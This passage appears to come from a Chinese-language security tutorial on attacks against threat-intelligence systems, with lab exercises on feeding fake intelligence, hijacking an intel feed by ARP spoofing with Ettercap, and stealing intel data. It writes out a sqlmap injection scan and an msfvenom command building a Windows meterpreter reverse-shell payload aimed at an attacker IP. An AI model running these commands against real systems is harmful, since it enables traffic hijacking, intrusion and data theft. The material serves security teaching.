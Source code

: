 ```python
api_key = "your_api_key_here"
status_code = submit_fake_intel(api_url, api_key)
print(f"Submission status code: {status_code}")
```

### 3.2 情报源劫持攻击实战演练

#### 实验环境
- **工具**：Ettercap。
- **环境**：局域网环境。

#### 步骤
1. 在局域网中启动Ettercap，选择目标主机和情报源服务器。
2. 实施ARP欺骗，将情报源服务器的流量重定向到攻击者主机。
3. 篡改情报源服务器返回的威胁情报数据，观察安全设备是否获取到错误的威胁情报。

#### 命令示例
```bash
ettercap -T -q -M arp:remote /情报源服务器IP/ /目标主机IP/
```

### 3.3 情报泄露攻击实战演练

#### 实验环境
- **工具**：SQLmap、Metasploit。
- **环境**：本地搭建的威胁情报数据库。

#### 步骤
1. 使用SQLmap扫描威胁情报数据库，寻找SQL注入漏洞。
2. 利用SQL注入漏洞，获取数据库的访问权限。
3. 使用Metasploit生成恶意软件，窃取威胁情报数据。

#### 命令示例
```bash
sqlmap -u "https://threat-intel-database/login" --data="username=admin&password=admin" --dbs
msfvenom -p windows/meterpreter/reverse_tcp LHOST=攻击者IP LPORT=4444 -f exe > malware.exe
```

## 4. 结论

威胁情报体系建设中的攻击技术多种多样，攻击者通过数据污染、情报源劫持和情报泄露等手段，破坏威胁情报的准确性和可靠性。防御者需要采取多层次的安全措施，包括数据验证、通信加密和访问控制，以应对这些攻击。通过深入理解攻击手法和技术原理，组织可以更好地保护其威胁情报体系，提升整体安全防御能力。

---

*文档生成时间: 2025-03-17 11:05:43*
